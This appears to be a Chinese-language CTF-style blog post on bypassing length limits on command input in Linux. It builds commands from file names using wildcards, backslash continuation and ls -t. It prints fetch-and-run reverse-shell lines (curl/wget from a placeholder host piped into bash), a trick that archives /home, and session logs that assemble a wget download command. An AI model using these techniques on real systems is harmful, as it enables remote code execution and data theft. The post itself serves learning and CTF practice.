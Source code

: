 # 短命令执行

### 要点

这里利用到了linux系统中的几个点

- `>`创建文件并可以写入命令等内容

- `l\s`中的\不会阻断命令的执行，而在识别到\前后连起来为可执行命令时可以执行命令。

- `sh`从标准输入或者从一个文件中读取命令并执行

- `*`Linux通配符，会匹配任意长度文件名，默认匹配当前文件中第一个文件名，单独打出来会将文件名当作命令执行，将后面的文件名作为参数，同时可以用*接文件名首字母或者尾字母匹配对应文件(匹配完成后若单独打出依然是按照第一个文件名当作命令执行，其余文件当作参数)
如下：
<img src="https://0xfay.github.io/public/image/201337.png">

- `rev`倒转字符串，用于拼凑命令

- `dir`和ls作用相同但输出内容是一行而不是ls的很多行

- 以.开头的文件为隐藏文件

整个过程为创建所需名称的文件,写入到一个文件中并执行。所以重点就在于拼接所需命令的顺序，如下为Linux文件的排序：

<img src="https://0xfay.github.io/public/image/alphabeat.png">

### 反弹shell方式

这里也学到了新的弹shell技巧，直接把脚本放在远程服务器上，用curl，wget远程加载并执行，达到反弹shell的目的

wget http://x.x.x.x/shell.txt | bash test1.txt

curl http://x.x.x.x/shell.txt | bash

### 构造

网上有很多构造方式，这个师傅写了很多方式我觉得还挺值得学习，也是感谢这位师傅
https://www.jianshu.com/p/5aad993c793e

里面有位师傅直接通过tar打包方式直接将/home目录打包然后去下载，属实有刷新我的认知。

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >tar
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >vcf
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >zzz
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# * /h*
```
就相当于执行了`tar -vcf zzz /h*`将整个/home目录下载到zzz中

然后写两个我觉得不错的思路吧。

- 思路1

来自这个师傅的博客：https://blog.kaibro.tw/2017/11/07/HITCON-CTF%E5%88%9D%E8%B3%BD/
  
```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >wg\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>.a    #执行echo wg\\ >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# rm w*
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >et     #重复上述过程
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>>.a
......
```

通过创建隐藏文件用echo不断写入的方式构造语句，最终写入.a的命令为
`wget x.x.x.x/shell.txt`
再用bash去执行

特点为简单方便，稍微吃域名的名字，需要后续的写入文件名都至少排在echo文件后面，且只能用wget无法用curl

- 思路2

基于上面的思路和其他师傅的思路我也想了种不需要特殊域名的方法

<img src="https://0xfay.github.io/public/image/201338.png">

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ls
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >-t
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >\>z
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls
 echo   ls   -t  '>z'
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# cat .a
ls -t >z
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# sh .a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls
 echo   ls   -t   z  '>z'
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# cat z
z
>z
-t
ls
echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# 
```

用上面的方式可以创建一个.a的隐藏文件，内容为`ls -t >z`,然后rm删除其他未隐藏文件
然后继续创建文件

<img src="https://0xfay.github.io/public/image/224507.png">

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >m
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >co\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >u.\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >id\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ba\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >w.\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ww\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >\ \\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >et\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >wg\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls -t
'wg\'  'et\'  ' \'  'ww\'  'w.\'  'ba\'  'id\'  'u.\'  'co\'   m
```

然后`sh .a`就可以把命令写入文件z中，再`sh z`即可。由于是用的`ls -t`写入,对构造没有什么限制，想怎么写怎么写，注意倒着构造就可。